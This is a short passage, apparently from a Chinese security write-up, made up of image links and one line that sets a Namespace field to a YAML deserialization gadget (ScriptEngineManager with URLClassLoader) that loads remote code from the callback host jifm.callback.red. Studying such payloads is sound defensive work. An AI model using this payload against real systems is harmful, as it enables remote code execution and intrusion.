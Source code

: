 [![](assets/1710900975-ab4cc2cece46f2875667115624551749.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301115749-de9a8d34-d77f-1.png)

[![](assets/1710900975-201fedc8b9dcdb05c6ab76121a66dcb0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301115754-e1aa505e-d77f-1.png)
=======
设置 Namespace 为!!javax.script.ScriptEngineManager \[!!java.net.URLClassLoader \[\[!!java.net.URL \["[http://jifm.callback.red"\]\]\]\] 即可](http://jifm.callback.red/)
